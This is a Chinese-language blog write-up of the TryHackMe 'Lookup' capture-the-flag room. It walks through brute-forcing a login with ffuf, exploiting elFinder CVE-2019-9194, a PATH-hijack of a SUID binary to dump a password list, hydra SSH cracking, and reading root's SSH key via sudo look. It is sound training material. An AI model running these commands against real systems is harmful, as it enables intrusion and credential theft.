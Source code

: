 ```yaml
---
layout: post
title:  "TryHackMe Challenge Writeup: Lookup"
date:   25 June 2025
categories: Demo
tags: TryHackMe-Challenge Writeup
---
```

<html>
<body>
<div markdown="block" style="margin-top: 10px">
    
### Intro
今天來解TryHackMe上的Challenge: [Lookup](https://tryhackme.com/room/lookup) 

以下是我的解題思路和歷程，紀錄自己嘗試了哪些手段以及學習了哪些新的攻擊手法和切入角度
  
### Step 1. Nmap
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 5e:aa:9c:e1:dd:bb:cf:45:9b:fe:3e:2e:ef:9f:be:52 (RSA)
|   256 98:df:c7:bb:25:0a:26:fd:56:f5:30:ca:49:52:f0:15 (ECDSA)
|_  256 5c:2d:64:cf:b7:8c:d6:a9:37:e5:36:46:ee:5b:85:90 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://lookup.thm
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- 一樣，22我們不關心，直接來看80

### Step 2. port80: website
- 瀏覽器手動打開IP:80，發現一個登錄界面
- 在尋找的過程中先用 gobuster 來找可能的路徑 => 沒找到
- 用whatweb找一下網站框架版本 => 沒什麼特別的

```bash
└─$ whatweb http://10.10.181.141         
http://10.10.181.141 [302 Found] Apache[2.4.41], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.181.141], RedirectLocation[http://lookup.thm]
http://lookup.thm [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.181.141], PasswordField[password], Title[Login Page]
```

- 然後用burp suite先觀察一下它的登錄請求 => 發現用戶名和密碼是明碼傳送，可做字典檔攻擊(先不測試)
  
```yaml
POST /login.php HTTP/1.1
Host: lookup.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
Origin: http://lookup.thm
Connection: keep-alive
Referer: http://lookup.thm/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

username=john&password=password
```

### Step 3. Subdomain/Vhost
- 把目標放大一點，根據題目提示好像是有隱藏的subdomain可以挖掘
- 嘗試 ffuf subdomain enumeration: `ffuf -u http://10.10.181.141/ -H "Host: FUZZ.lookup.thm" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -mc 200`
- 嘗試 gobuster vhost enumeration: `gobuster vhost -u "http://10.10.181.141" --domain lookup.thm --append-domain -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -t 50`
- 暫時都沒有結果

### Step 4. 回去ffuf
- 思路是用ffuf測試出有效的用戶名，然後進一步fuzz出密碼
- `ffuf -X POST -u http://lookup.thm/login.php -w /usr/share/wordlists/dirb/big.txt -d "username=FUZZ&password=123" -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8"`
- 首先先觀察錯誤的用戶名的response長度: word=10
- 添加filters: `ffuf -X POST -u http://lookup.thm/login.php -w /usr/share/wordlists/dirb/big.txt -d "username=FUZZ&password=123" -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" -fw 10`
- 找到用戶名 **admin** 時response長度不同(word=8)，可能為有效的用戶名: 

```bash
admin                   [Status: 200, Size: 62, Words: 8, Lines: 1, Duration: 415ms]
```  
  
- 再測試有效密碼: `ffuf -X POST -u http://lookup.thm/login.php -w /usr/share/wordlists/dirb/big.txt -d "username=admin&password=FUZZ" -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" -fw 8`
- 找到一個密碼 **password123**
- 但是當我嘗試輸入admin/password123時卻還是顯示用戶名或密碼不對
- 嘗試看看還有沒有其他用戶，但這次用別的字典檔: `ffuf -X POST -u http://lookup.thm/login.php -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -d "username=FUZZ&password=123" -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" -fw 10`
- 找到另一個用戶 **jose**
- 嘗試登入後會把我們導向到 **files.lookpu.thm**；一樣，手動添加到 /etc/hosts

### Step 5. files.lookup.thm
- 首先先檢查看得到的文件有沒有有價值的東西，發現一個 credentials.txt 文件內容為: `think: nopassword`，先記下來
- 分別嘗試了用這組帳密登入 lookup.thm 和 ssh，都不行
- 那麼查查看elFinder有沒有已知漏洞，並且在網站中有一個很小的問號，點開可以查看版本號 (2.1.47)
- 直接查到 [CVE-2019-9194](https://www.exploit-db.com/exploits/46481)
![lookup-1](/assets/img/post-img/challenge-lookup-1.png)
- 直接成功，嘗試reverse shell，可以用這個 [reverse shell generator](https://www.revshells.com/)
![lookup-2](/assets/img/post-img/challenge-lookup-2.png)
- 一樣，先看/home下有什麼用戶，找到 think下有.ssh，但目前來說我們用戶是www-data，沒辦法讀取這組ssh

### Step 6. 嘗試提權到think
- linpeas 先跑
- `cat /etc/passwd`:

```bash
think:x:1000:1000:,,,:/home/think:/bin/bash
ssm-user:x:1001:1001::/home/ssm-user:/bin/sh
ubuntu:x:1002:1003:Ubuntu:/home/ubuntu:/bin/bash
```

- 到/home下找到三個用戶: think/ssm-user/ubuntu，三個都有.ssh但目前都沒有權限
- linpeas有找到一個可疑的binary: `/usr/sbin/pwm`

```bash
-rwsr-sr-x 1 root root 17176 Jan 11  2024 /usr/sbin/pwm
```

- 簡單執行一下看到好像是通過執行id後拿取用戶名來查詢 `/home/{username}/.password`
- 那我們創造一個優先度更高的id command讓這個程序優先執行並返回我們創造的結果。下面首先創造一個名為id的bash file，然後放在/tmp目錄下，同時添加路徑/tmp到環境變數中並且優先度最前，這樣在運行id時就會優先抓/tmp下的id:

```bash
cd /tmp
echo '#!/bin/bash' > id
echo 'echo "uid=1000(think) gid=1000(think) groups=1000(think)"' >> id
chmod +x id
export PATH=/tmp:$PATH
```

- 之後執行 `/usr/sbin/pwm` 會dump出 `/home/think/.password`。然後將這份字典檔傳到自己攻擊主機後用 hydra 爆破用戶think密碼

```bash
└─$ hydra -l think -P password_list 10.10.181.141 ssh
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-25 01:11:44
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 49 login tries (l:1/p:49), ~4 tries per task
[DATA] attacking ssh://10.10.181.141:22/
[22][ssh] host: 10.10.181.141   login: think   password: josemario.AKA(think)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-06-25 01:11:57
```

- 找到密碼後登入用戶think，成功獲得user flag

### Step 7. 提權到root
- sudo -l 查找有哪些sudo權限執行程序

```bash
[sudo] password for think: 
Matching Defaults entries for think on ip-10-10-181-141:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User think may run the following commands on ip-10-10-181-141:
    (ALL) /usr/bin/look
```

- 上GTFOBins查look如果有sudo權限可不可以做提權，發現可以

```bash
think@ip-10-10-181-141:~$ LFILE=/root/.ssh/id_rsa
think@ip-10-10-181-141:~$ sudo look '' "$LFILE"
```

- 依照GTFOBins上面的步驟，將path_to_file改為/root/.ssh/id_rsa(因為前面發現三個用戶都有.ssh/，可以直接猜測root也有)獲得root金鑰
- 成功登入為root，獲得root權限

### 最後自我總結
個人覺得的難點:
- 根據response長度分析合法用戶名和密碼有哪些
- admin/password123一直嘗試但是都不行，其實要讓ffuf把更多結果跑出來
- reverse /usr/sbin/pwm 來完整分析到底怎麼使用 id 指令的
- 使用自己建造的bash來替代默認執行的程序並替換環境變數
- 剩下的root提權其實就單純想太多，應該直接嘗試 `sudo -l`

## 學習資料
1. [TryHackMe Challenge: Lookup](https://tryhackme.com/room/lookup) 
2. [Lookup Writeup](https://0xb0b.gitbook.io/writeups/tryhackme/2024/lookup)

</div>
</body>
</html>
